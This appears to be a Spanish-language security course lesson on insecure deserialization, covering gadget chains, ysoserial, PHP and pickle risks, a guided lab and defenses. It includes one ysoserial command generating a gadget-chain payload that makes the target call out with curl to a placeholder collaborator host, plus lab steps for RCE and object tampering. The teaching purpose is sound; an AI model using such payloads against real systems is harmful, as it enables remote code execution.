

# Clase 106 — Deserialización insegura

> Parte: **4 — Seguridad de aplicaciones web** · Fuente: *The Web Application Hacker's Handbook* / *OWASP*
> ⏱️ Duración estimada: **120 min** · Nivel: **Experto**

---

## 🎯 Objetivo

Comprender y explotar la **deserialización insegura**: cuando una aplicación reconstruye objetos a partir de datos controlados por el atacante, permitiendo desde manipulación de estado hasta ejecución remota de código (RCE) mediante cadenas de gadgets. Es un fallo complejo pero de altísimo impacto.

> ⚠️ **Ética**: RCE de máximo impacto. Practica **solo** en labs propios/autorizados (PortSwigger). Nunca contra sistemas ajenos.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Explicar** qué es serializar/deserializar y por qué es riesgoso con datos no confiables.
2. **Manipular** objetos serializados para alterar el estado de la app.
3. **Reconocer** formatos serializados (PHP, Java, Python pickle, .NET).
4. **Usar** cadenas de gadgets (ysoserial) para lograr RCE en un lab.
5. **Recomendar** evitar deserializar datos no confiables.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|-----------------|
| 1 | Serialización: concepto | Base del fallo |
| 2 | Formatos por lenguaje | Reconocer el objetivo |
| 3 | Manipulación de estado | Impacto básico |
| 4 | Gadget chains | Camino a la RCE |
| 5 | ysoserial y herramientas | Automatizar la explotación |
| 6 | Pickle en Python | Vector frecuente en ML/APIs |
| 7 | Defensa: no deserializar input | Cierre del fallo |

## 🧠 Explicación en profundidad

### Convertir bytes en objetos es más peligroso de lo que parece

**Serializar** es convertir un objeto en memoria a una secuencia de bytes para guardarlo o
transmitirlo; **deserializar** es lo contrario, reconstruir el objeto a partir de esos bytes. Suena
inocuo, pero la deserialización insegura (A08 de OWASP) es de las vulnerabilidades más graves porque,
en muchos lenguajes, **reconstruir un objeto ejecuta código** —constructores, métodos especiales que
se invocan durante la reconstrucción—. Si la aplicación **deserializa datos que vienen del usuario**,
el atacante controla qué objetos se crean y, con ellos, qué código se ejecuta. La causa raíz es la
confianza: se asume que el flujo serializado es "de la aplicación", cuando en realidad puede venir de
una cookie, un campo oculto o una petición manipulados.



### Gadget chains: no hace falta traer código, ya está ahí

El concepto más importante de la clase es la **gadget chain**, y es contraintuitivo: el atacante no
inyecta código nuevo, sino que **encadena métodos que ya existen** en la aplicación y sus librerías.
Un "gadget" es un fragmento de código —un método que se ejecuta automáticamente al deserializar
(como `__wakeup`/`__destruct` en PHP, `readObject` en Java, `__reduce__` en Python)— que hace algo
útil para el atacante. Encadenando varios gadgets presentes en las dependencias, se construye una
secuencia que termina ejecutando un comando. Por eso una aplicación puede ser vulnerable **por sus
librerías** aunque su propio código parezca limpio: la superficie de gadgets la aportan las
dependencias. La herramienta emblemática es **ysoserial** (Java), que genera payloads de gadget
chains para librerías populares; hay equivalentes para PHP (phpggc) y .NET.

### Cómo se manifiesta en cada lenguaje

El riesgo depende del formato y del lenguaje. En **Java**, la serialización nativa (`ObjectInputStream`)
es notoriamente peligrosa y ha causado brechas enormes. En **PHP**, `unserialize()` sobre datos del
usuario es un clásico, a menudo escondido en cookies. En **Python**, el módulo **`pickle`** lleva un
aviso explícito en su documentación: **nunca deserialices datos que no controlas**, porque `pickle`
puede ejecutar código arbitrario por diseño. En **.NET**, `BinaryFormatter` (ya desaconsejado por
Microsoft) tiene el mismo problema. Incluso formatos que parecen datos pueden ser peligrosos si el
deserializador permite indicar tipos: un YAML con `!!python/object` o un JSON con "type hints" mal
manejados reintroducen el riesgo. La señal de alarma al auditar es encontrar datos serializados
—Base64 que decodifica a estructuras binarias reconocibles, cookies con patrones de objetos— que la
aplicación acepta del cliente.

### La defensa es una regla simple, y por eso poderosa

La remediación es tan clara como difícil de discutir: **no deserialices datos no confiables con
serializadores que reconstruyen objetos arbitrarios**. Si solo necesitas transportar *datos* (no
comportamiento), usa un **formato de datos puro** —JSON, con un parser que no instancie clases
arbitrarias— en lugar de la serialización nativa del lenguaje. Cuando la deserialización de objetos
es inevitable, se aplica defensa en profundidad: **firmar o cifrar** el dato serializado (con HMAC,
clase 052) para que el usuario no pueda alterarlo —así el objeto que vuelve es exactamente el que
salió—, restringir la deserialización a una **allowlist de clases** permitidas, y ejecutar el proceso
con **mínimo privilegio**. El mensaje de fondo conecta con toda la parte: la deserialización insegura
es otra forma de confiar en la entrada del usuario, y la solución es la misma que en la inyección —no
dejar que datos externos se conviertan en código—.

## 📖 Definiciones y características

- **Serialización**: convertir un objeto en bytes/texto para almacenarlo o transmitirlo. Característica: reversible mediante deserialización.
- **Deserialización insegura**: reconstruir objetos desde datos del atacante. Característica: puede ejecutar código durante el proceso.
- **Gadget**: clase presente en la app cuyo comportamiento se abusa en la deserialización. Característica: se encadenan para lograr RCE.
- **Gadget chain**: secuencia de gadgets que culmina en una acción peligrosa. Característica: ysoserial las genera para Java.
- **Pickle**: formato de serialización de Python. Característica: ejecuta `__reduce__`, peligroso con datos externos.
- **Magic methods**: métodos que se invocan automáticamente (`__wakeup`, `readObject`). Característica: puntos de entrada del ataque.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| Serialización | Convertir un objeto en bytes para guardar o transmitir |
| Deserialización | Reconstruir el objeto a partir de los bytes |
| Deserialización insegura | Reconstruir datos del usuario que ejecutan código |
| Gadget | Método que se ejecuta al deserializar y es útil al atacante |
| Gadget chain | Encadenar gadgets ya presentes para lograr RCE |
| Métodos mágicos | `__wakeup`, `readObject`, `__reduce__` invocados al deserializar |
| ysoserial | Herramienta que genera gadget chains para Java |
| phpggc | Equivalente para PHP |
| pickle | Módulo de Python que ejecuta código al deserializar |
| BinaryFormatter | Serializador .NET peligroso, desaconsejado |
| unserialize() | Función de PHP vulnerable con datos del usuario |
| Formato de datos | JSON u otros que transportan datos sin instanciar clases |
| Firma del dato | HMAC que impide alterar el objeto serializado |
| Allowlist de clases | Restringir qué clases se pueden deserializar |

## 🧰 Herramientas y preparación

- **PortSwigger labs** de insecure deserialization.
- **ysoserial** (Java) y **ysoserial.net** (.NET).
- **Burp** para manipular los objetos serializados en cookies/parámetros.

```bash
# ysoserial para Java (lab)
java -jar ysoserial.jar CommonsCollections1 'curl http://tu-collab' | base64
```

## 🧪 Laboratorio guiado

> ⚠️ Solo en labs propios.

1. Identifica datos serializados (cookies con Base64 que decodifican a objetos, campos `O:8:...` en PHP).
2. En un lab PHP, decodifica el objeto serializado y **manipula un atributo** (p. ej. `admin=true`), reserializa y reenvía.
3. Observa el cambio de estado/privilegio.
4. En un lab Java, detecta el objeto serializado y usa **ysoserial** para generar una gadget chain que ejecute un comando.
5. Confirma la ejecución con una interacción OOB hacia Collaborator.
6. Para Python, analiza un endpoint que deserializa **pickle** y demuestra el riesgo con un payload controlado en el lab.
7. Documenta el formato, la manipulación y el impacto.

## ✍️ Ejercicios

1. Decodifica y modifica un objeto PHP serializado para escalar privilegios.
2. Explica qué es una gadget chain y por qué depende de las librerías presentes.
3. Genera un payload con ysoserial y explica qué gadget usa.
4. Describe por qué `pickle.loads` sobre datos externos es peligroso.
5. Enumera magic methods relevantes en PHP, Java y Python.
6. Propón alternativas seguras (JSON con validación de esquema, firmas).

## 📝 Reto verificable

Resuelve un lab de deserialización de PortSwigger: primero uno de **manipulación de atributos** y, si llegas, uno de **RCE con gadget chain**.
**Criterio de aceptación**: al menos el lab de manipulación queda resuelto con evidencia del cambio de privilegio; documentas el formato serializado y por qué deserializar input no confiable es la causa raíz.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|-------------------|------------------------|
| El objeto no se acepta | Longitud/formato mal recalculados; ajusta el serializado |
| ysoserial no funciona | Gadget no presente en el classpath; prueba otra chain |
| Sin señal de RCE | Deserialización ciega; usa OOB |
| Firma HMAC en el objeto | Está firmado; necesitas la clave (otro vector) |
| Pickle sin efecto | El endpoint valida tipo; documenta la defensa |

## ❓ Preguntas frecuentes

**❓ ¿Por qué es tan difícil de explotar?**
Requiere conocer las librerías presentes para encadenar gadgets. La manipulación de estado, en cambio, es sencilla.

**❓ ¿JSON es seguro?**
JSON no instancia objetos arbitrarios, así que evita el vector clásico, pero sigue necesitando validación de esquema y de tipos.

**❓ ¿Cómo lo defiendo?**
No deserialices datos no confiables. Si es inevitable, usa formatos de datos (no de objetos), firma e integridad, y allowlists de clases.

## 🔗 Referencias

- Stuttard & Pinto, *The Web Application Hacker's Handbook*.
- OWASP Deserialization Cheat Sheet.
- ysoserial: <https://github.com/frohoff/ysoserial>
- PortSwigger Insecure deserialization: <https://portswigger.net/web-security/deserialization>

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-106-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-106-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 105 — Control de acceso roto: IDOR y path traversal](../105-control-de-acceso-roto-idor-y-path-traversal/README.md)

## ➡️ Siguiente clase

[Clase 107 — Server-Side Template Injection (SSTI)](../107-server-side-template-injection-ssti/README.md)
